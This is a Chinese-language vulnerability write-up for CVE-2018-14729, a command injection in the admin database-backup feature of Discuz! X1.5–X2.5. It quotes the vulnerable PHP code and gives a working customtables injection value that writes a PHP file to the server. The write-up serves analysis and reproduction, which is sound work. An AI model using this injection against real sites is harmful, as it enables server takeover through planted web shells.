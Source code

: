 （CVE-2018-14729）Discuz!X 1.5 \~ X2.5 后台数据库备份功能远程命令执行 Getshell
==============================================================================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X1.5-2.5

三、复现过程
------------

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

    source/admincp/admincp_db.php

第296行：

    @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);

在shell\_exec()函数中可控点在\$tablesstr，向上看到第281行：

    $tablesstr = '';
    foreach($tables as $table) {
        $tablesstr .= '"'.$table.'" ';
    }

跟一下\$table的获取流程，在上面的第143行：

    if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
    {
        $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
    } 
    elseif($_GET['type'] == 'custom') 
    {
        $tables = array();
        if(empty($_GET['setup'])) 
        {
            $tables = C::t('common_setting')->fetch('custombackup', true);
        } 
        else 
        {
            C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
            $tables = & $_GET['customtables'];
        }
        if( !is_array($tables) || empty($tables)) 
        {
            cpmsg('database_export_custom_invalid', '', 'error');
        }
    }

可以看到：

    C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
    $tables = & $_GET['customtables'];

首先会从\$\_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common\_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![](./resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId25.jpg)

之后再将该值赋给\$tables。

至此可以看到漏洞产生的原因是由于shell\_exec()中的\$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![](./resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId27.jpg)

这样可以抓到符合我们条件的请求包。

![](./resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId28.jpg)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

    customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

![](./resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId29.jpg)

![](./resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId30.jpg)

效果为：

![](./resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId31.jpg)

参考链接
--------

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz\_backend\_getshell.md
>
> https://www.anquanke.com/post/id/158270
